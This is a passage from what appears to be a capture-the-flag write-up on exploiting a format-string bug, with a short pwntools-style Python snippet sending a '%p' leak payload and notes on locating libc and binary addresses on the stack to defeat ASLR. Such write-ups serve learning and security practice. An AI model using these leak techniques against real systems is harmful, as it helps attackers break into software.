 ```python
def send_fmt(payload):
    io.sendafter(b'vulnerability:\n', payload)


io = start()


#### write part ####
offset = 30
padlen = 7

send_fmt('%p|%p|%p|%p|%p|%p|%p|%p|')

io.interactive()
```

### Finding leak points in stack

One screenshot but tells tons of things.

> 1- 1st and 3rd offsets always points to address inside libc. So these addresses is could be targeted for libc calculations. The offset of the libc address marked with green box.
> 2- Same examination could be follow after settling breakpoint at 0x17a0. In your binary the offset may different. So consider in your binary and environment.

But only libc address is not enough, still need to find an address inside binary memory space. So can calculate the exe base address.



![](images/200be3093ef050a25f19e30887ced260.png)
